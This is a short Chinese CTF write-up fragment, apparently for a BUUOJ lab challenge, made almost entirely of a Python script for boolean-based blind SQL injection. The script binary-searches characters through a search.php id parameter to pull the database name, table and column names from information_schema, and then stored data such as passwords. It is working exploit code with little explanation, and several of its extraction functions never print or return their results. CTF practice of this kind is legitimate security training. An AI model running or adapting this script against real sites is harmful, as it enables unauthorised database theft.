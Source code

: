 根据括号内的数字不同，返回的界面不同，和没被过滤的关键字可以使用盲注

编写盲注脚本

```
# -*- coding: utf-8 -*-
import requests

def get(payload):
    url = 'http://f408e803-8b3e-4c4e-883e-3fb61e29303f.node3.buuoj.cn/search.php?id=1=('+payload+')'
    html = requests.get(url)
    # print(html)
    return html

def binsea(s_payload,len=999):
    result = ''
    x=1
    while x <= len :
        error = 0
        left = 0
        right = 126
        while left <= right:
            mid = (left + right) / 2
            payload = "ascii(substr((%s),%d,1))>%d" % (s_payload,x, mid)

            res = get(payload)
            if res.status_code == 404 or res.status_code == 429:
                x=x-1
                error = 1
                break
            html=res.text
            # print('*-*-*-*-*-*', mid)
            if 'others' in html:
                left = mid +1
            else:
                right = mid -1
        mid = int((left + right + 1) / 2)
        if mid == 0 :
            break
        if error == 0 :
            result += chr(mid)
            print(result)
        x=x+1
    return result

def get_database():
    s_payload='database()'
    database = binsea(s_payload)
    print(database)

def get_tabls(db):
    s_payload = 'select(group_concat(table_name))from(information_schema.tables)where(table_schema=\''+db+'\')'
    tables=binsea(s_payload)

def get_columns(table):
    s_payload = 'select(group_concat(column_name))from(information_schema.columns)where(table_name=\''+table+'\')'
    columns=binsea(s_payload)

def get_data(columns,table):
    s_payload='select(group_concat('+columns+'))from('+table+')'
    password=binsea(s_payload)

```